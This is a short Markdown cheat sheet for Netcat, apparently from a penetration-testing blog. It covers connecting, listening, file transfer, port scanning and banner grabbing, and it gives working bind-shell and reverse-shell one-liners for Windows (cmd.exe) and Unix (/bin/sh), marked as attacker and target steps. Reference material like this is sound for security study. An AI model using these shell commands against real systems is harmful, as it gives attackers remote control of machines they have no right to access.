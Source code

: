 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


#Usage
Insert picture here


#Basic  
**TCP Port - Connecting**  
`nc -nv <IP> <PORT>`

**TCP Port - Listening**  
`nc -lvp <PORT>`

**Connect and return HTTP Page**  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

**File Transfer**  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

**Port Scanning**  
`nc -z <IP> <PORT RANGE>`

**Banner Grabbing**  
`echo "" | nc -nv -w1 <IP Address> <Ports>`

#Windows  

**Bind Shell**  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444`

**Reverse Shell**  
`nc -lvp 443 # Attacking Machine - Receiving`  
`nc -nv <IP> 443 -e cmd.exe # Target Machine - Sending`

#Nix  
**Bind Shell**  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444`

**Reverse Shell**  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`

#Additional Resources  

[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
